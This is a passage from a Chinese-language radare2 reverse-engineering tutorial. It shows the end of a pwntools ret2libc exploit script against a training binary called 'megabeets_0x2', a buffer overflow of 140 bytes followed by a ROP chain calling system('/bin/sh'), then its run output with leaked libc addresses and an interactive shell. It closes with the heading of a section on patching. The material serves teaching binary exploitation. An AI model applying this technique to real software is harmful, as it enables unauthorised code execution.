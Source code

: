 ```py
    log.info("exit is at: 0x%x" % exit_addr)

    # Build 2nd payload
    payload2  =  "A"*140
    ropchain2 =  p32(system_addr)
    ropchain2 += p32(exit_addr)
    # Optional: Fix disallowed character by scanf by using p32(binsh_addr+5)
    #           Then you'll execute system("sh")
    ropchain2 += p32(binsh_addr) 

    payload2 = payload2 + ropchain2
    p.sendline(payload2)

    log.success("Here comes the shell!")

    p.clean()
    p.interactive()

if __name__ == "__main__":
    main()

```

完成编写后保存，运行代码如下：
```sh
$ python exploit.py
[+] Starting local process ‘./megabeets_0x2’: pid 24410
[*] puts is at: 0xf75db710
[*] libc base: 0xf75ce000
[*] system is at: 0xf760a060
[*] /bin/sh is at: 0xf7735768
[*] exit is at: 0xf75fd1b0
[+] Here comes the shell!
[*] Switching to interactive mode:
 
$ whoami
beet
$ echo EOF
EOF
```

### 小结

在本节，我们学习了r2 的一些核心概念和用法。有没有觉得radare2 比起 gdb-peda 要好用？




## 使用radare2 打patch

> 内容来源：
> 1. https://monosource.gitbooks.io/radare2-explorations/content/tut1/tut1_-_simple_patch.html
